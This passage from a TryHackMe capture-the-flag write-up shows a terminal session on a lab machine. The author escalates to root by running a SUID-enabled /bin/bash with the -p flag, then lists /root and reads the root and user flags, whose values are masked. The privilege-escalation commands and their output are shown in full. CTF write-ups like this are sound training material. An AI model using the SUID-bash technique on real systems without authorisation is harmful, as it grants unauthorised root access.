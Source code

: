 ```bash
asterisk@ip-10-10-166-6:/home$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-166-6:/home$ /bin/bash -p
/bin/bash -p
bash-5.2# whoami
whoami
root
bash-5.2# id
id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) groups=1001(asterisk)
bash-5.2# cd /root
cd /root
bash-5.2# ls -al
ls -al
total 60
drwx------  7 root root 4096 May 28 13:01 .
drwxr-xr-x 19 root root 4096 Jul  1 19:42 ..
lrwxrwxrwx  1 root root    9 Mar 27  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwx------  3 root root 4096 Mar 27  2024 .cache
drwx------  3 root root 4096 Mar 30  2024 .gnupg
-rw-------  1 root root   20 May 28 13:01 .lesshst
drwxr-xr-x  3 root root 4096 Mar 27  2024 .local
lrwxrwxrwx  1 root root    9 Mar 27  2024 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 May 28 12:33 .ssh
drwxr-xr-x  3 root root 4096 Mar 27  2024 .subversion
-rw-------  1 root root 1223 May 28 12:34 .viminfo
-rw-r--r--  1 root root  180 Mar 27  2024 .wget-hsts
-rw-r--r--  1 root root    1 Mar 31  2024 filename
-rw-r--r--  1 root root   17 Mar 27  2024 passwordMysql.log
-rw-r--r--  1 root root   38 Mar 27  2024 root.txt
bash-5.2# cat root.txt
cat root.txt
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
bash-5.2# cd /home/magnus/user.tx
cd /home/magnus/user.tx
bash: cd: /home/magnus/user.tx: No such file or directory
bash-5.2# cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
bash-5.2# 
```
{: .nolineno}
I am root now !!




> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }